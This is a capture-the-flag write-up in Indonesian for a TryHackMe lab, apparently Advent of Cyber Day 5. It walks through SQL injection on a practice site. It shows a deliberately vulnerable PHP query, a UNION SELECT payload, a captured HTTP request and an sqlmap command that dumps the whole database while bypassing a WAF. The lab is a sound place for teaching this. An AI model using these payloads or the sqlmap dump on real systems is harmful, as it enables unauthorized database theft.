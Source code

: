 # Day 5 | Someone stole Santa's gift list!

`TryHackMe` `Web Exploitation` `Security`  `SQLi`

---

## Learning Outcomes

Hasil pembelajaran

- Memahami konsep dari serangan injeksi SQL (SQLi)
- Mengetahui cara menggunakan SQLMap untuk melakukan injeksi otomatis.

## Summary

tldr;

- Klik hint untuk mendapatkan clue tentang login panel Santa
- Gunakan SQLi untuk melakukan bypass login
- Intercept request pada search box yang ada pada halaman login.
- Gunakan SQLMap untuk melakukan injeksi SQL secara otomatis

## Story 

> *After last year's attack, Santa and the security team have worked hard on reviving Santa's personal portal. Hence, 'Santa's forum 2' went live.*
>
> *After the attack, logs have revealed that someone has found Santa's panel on the website and logged into his account! After doing so, they were able to dump the whole gift list database, getting all the 2020 gifts in their hands. An attacker has threatened to publish a wishlist.txt file, containing all information, but happily, for us, he was caught by the CBI (Christmas Bureau of Investigation) before that. On machine_ip:8000 you'll find the copy of the website and your goal is to replicate the attacker's actions by dumping the gift list!*

## Write-up

Sedikit pembahasan..

Pada aplikasi-aplikasi yang menggunakan database, biasanya terdapat suatu hardcoded dari SQL kueri. Hal tersebut tentunya digunakan dalam pemrosesan data user, pencarian product, dsb dari database.

Sebagai contoh: 

```
<?php
    $username = $_GET['username'];
    $result = mysql_query("SELECT * FROM users WHERE username='$username'");
?>
```

Dari kode diatas, kita mempunyai kontrol terhadap variabel `$username` karena variable ini di *passing* melalui metode GET request. 

Apa jadinya jika input yang diberikan bukan merupakan <u>username</u>, melainkan tanda `'` ?.

```
$username = '
$result = mysql_query("SELECT * FROM users WHERE username='''");
```

Setelah sedikit pengenalan SQLi diatas, writeup akan mengikuti Challenge yang diberikan, yaitu: 

### Challenge

> Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6. 
Santa reads some documentation that he wrote when setting up the application, it reads:
>
> Santa's TODO: Look at alternative database systems that are better than **sqlite**. Also, don't forget that you installed a **Web Application Firewall (WAF)** after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2comment`

Berikut tampilan dari mesin yang di deploy :

![5929b9e7c4a151e4d09e8e9653ab5743.png](./_resources/afdc4d64470b4119b8abdfea43219b48.png)


### Q1 : Without using directory brute forcing, what's Santa's secret login panel?

Login panelnya berada pada  `/santapanel`,

### Q2 : Visit Santa's secret login panel and bypass the login using SQLi

Halaman login tersebut berhasil di bypass menggunakan salah satu payload yang ada di link berikut:  

[Payload All The Things](
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

Berikut adalah tampilan setelah login

![20e489986723fdb5d5f3b97c4499ce61.png](./_resources/21cb54862e3e4aa78c1d8d30ebbc04ee.png)

### Q3 : How many entries are there in the gift database?

Pada search box tersebut, injeksi kueri SQL dapat dilakukan, berikut contoh payload yang digunakan.

```
' UNION SELECT NULL,NULL--
```
Hasilnya :

![518302d9e5b9b10a1adf7680a4a287b3.png](./_resources/e0344168037247eda7eacbfb76322146.png)

### Q4 : What did Paul ask for?

Anak bernama Paul meminta hadiah berupa `Github Ownership` :D 

### Q5 : What is the flag?

Berdasarkan hint, untuk menjawabnya akan digunakan tools bernama SQLMap. SQLMap dapat melakukan injeksi kueri sql secara otomatis dan masif.

SQLMap dapat membaca request yang diintersep oleh BurpSuite dan menentukan parameter yang mungkin dapat di injeksi dengan menambahkan opsi `-r [nama file]`.

Berikut ini adalah contoh request yang diintersep oleh BurpSuite, disimpan dengan nama **req**.

```
GET /santapanel?search=test HTTP/1.1
Host: 10.10.98.46:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:/10.10.98.46:8000/santapanel?search=test
Cookie: session=eyJhdXRoIjp0cnVlfQ.X8wN5w.1Ja1P_I4nmcANhJKMUx5dTa7fCQ
Upgrade-Insecure-Requests: 1
```

> Cheatsheet SQLMap  :
- https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- https://github.com/sqlmapproject/sqlmap/wiki/Usage


Berdasarkan informasi dari Challenge, maka susunan SQLmap dan opsinya yang digunakan adalah berikut.

```
sqlmap -r req --dbms sqlite --dump-all --tamper=space2comment --batch
```

Berikut hasilnya:

![5cc874e47b629a01470b7bf86230c0f0.png](./_resources/c5e5e436f2774a4da98314bc38020e5f.png)

![166507cf29fc21d0ab4316e64cd3431a.png](./_resources/5f5cb88db6f74013bfb1a8e1d5c5f2ed.png)

### Q6 : What is admin's password?

![4e0c5218ef1aa44e8c5a94d7aeff85a5.png](./_resources/1097ea7cf66e454ca6e9e2ab7d0d46d5.png)


